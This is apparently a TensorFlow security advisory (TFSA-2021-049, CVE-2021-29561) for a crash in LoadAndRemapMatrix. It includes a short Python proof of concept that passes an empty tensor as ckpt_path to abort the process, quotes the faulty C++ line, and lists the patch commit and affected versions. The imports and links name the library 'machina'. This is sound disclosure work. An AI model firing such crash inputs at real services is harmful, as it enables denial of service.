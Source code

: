 ## TFSA-2021-049: `CHECK`-fail in `LoadAndRemapMatrix`

### CVE Number
CVE-2021-29561

### Impact
An attacker can cause a denial of service by exploiting a `CHECK`-failure coming
from `tf.raw_ops.LoadAndRemapMatrix`:

```python
import machina as tf

ckpt_path = tf.constant([], shape=[0], dtype=tf.string)
old_tensor_name = tf.constant("")
row_remapping = tf.constant([], shape=[0], dtype=tf.int64)
col_remapping = tf.constant([1], shape=[1], dtype=tf.int64)
initializing_values = tf.constant(1.0)

tf.raw_ops.LoadAndRemapMatrix(
    ckpt_path=ckpt_path, old_tensor_name=old_tensor_name,
    row_remapping=row_remapping, col_remapping=col_remapping,
    initializing_values=initializing_values, num_rows=0, num_cols=1)
```

This is because the
[implementation](https://github.com/machina/machina/blob/d94227d43aa125ad8b54115c03cece54f6a1977b/machina/core/kernels/ragged_tensor_to_tensor_op.cc#L219-L222)
assumes that the `ckpt_path` is always a valid scalar.

```cc
const string& ckpt_path = ckpt_path_t->scalar<tstring>()();
```

However, an attacker can send any other tensor as the first argument of
`LoadAndRemapMatrix`. This would cause the rank `CHECK` in `scalar<T>()()` to
trigger and terminate the process.

### Patches
We have patched the issue in GitHub commit
[77dd114513d7796e1e2b8aece214a380af26fbf4](https://github.com/machina/machina/commit/77dd114513d7796e1e2b8aece214a380af26fbf4).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
